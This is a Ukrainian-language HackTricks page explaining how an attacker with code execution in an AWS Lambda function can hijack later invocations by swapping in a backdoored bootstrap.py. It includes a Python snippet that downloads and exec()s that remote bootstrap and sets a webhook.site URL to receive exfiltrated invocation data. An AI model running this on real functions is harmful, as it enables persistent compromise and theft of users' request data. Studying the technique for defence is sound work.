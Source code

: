 # AWS - Вкрасти запити Lambda

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Потік Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** - це процес поза контейнером, який **надсилає** **виклики** до процесу **init**.
2. Процес init слухає на порту **9001**, відкриваючи деякі цікаві кінцеві точки:
* **`/2018-06-01/runtime/invocation/next`** – отримати наступну подію виклику
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – повернути відповідь обробника для виклику
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – повернути помилку виконання
3. **bootstrap.py** має цикл, що отримує виклики з процесу init і викликає код користувача для їх обробки (**`/next`**).
4. Нарешті, **bootstrap.py** надсилає до init **відповідь**

Зверніть увагу, що bootstrap завантажує код користувача як модуль, тому будь-яке виконання коду, яке виконується кодом користувача, насправді відбувається в цьому процесі.

## Вкрадання запитів Lambda

Мета цієї атаки - змусити код користувача виконати шкідливий процес **`bootstrap.py`** всередині процесу **`bootstrap.py`**, який обробляє вразливий запит. Таким чином, **шкідливий bootstrap** процес почне **спілкуватися з процесом init**, щоб обробляти запити, поки **легітимний** bootstrap **потрапить** в пастку, виконуючи шкідливий, тому він не запитуватиме запити у процесу init.

Це проста задача, оскільки код користувача виконується легітимним процесом **`bootstrap.py`**. Тому зловмисник може:

* **Надіслати підроблений результат поточного виклику до процесу init**, щоб init думав, що процес bootstrap чекає на більше виклики.
* Запит має бути надісланий до **`/${invoke-id}/response`**
* invoke-id можна отримати зі стеку легітимного процесу **`bootstrap.py`**, використовуючи модуль [**inspect**](https://docs.python.org/3/library/inspect.html) python (як [пропонувалося тут](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) або просто запитуючи його знову до **`/2018-06-01/runtime/invocation/next`** (як [пропонувалося тут](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Виконати шкідливий **`boostrap.py`**, який оброблятиме наступні виклики
* Для цілей прихованості можливо надіслати параметри викликів lambda до C2, контрольованого зловмисником, а потім обробляти запити як зазвичай.
* Для цієї атаки достатньо отримати оригінальний код **`bootstrap.py`** з системи або [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), додати шкідливий код і запустити його з поточного виклику lambda.

### Кроки атаки

1. Знайти вразливість **RCE**.
2. Згенерувати **шкідливий** **bootstrap** (наприклад, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Виконати** шкідливий bootstrap.

Ви можете легко виконати ці дії, запустивши:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Для отримання додаткової інформації перегляньте [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Посилання

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перегляньте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
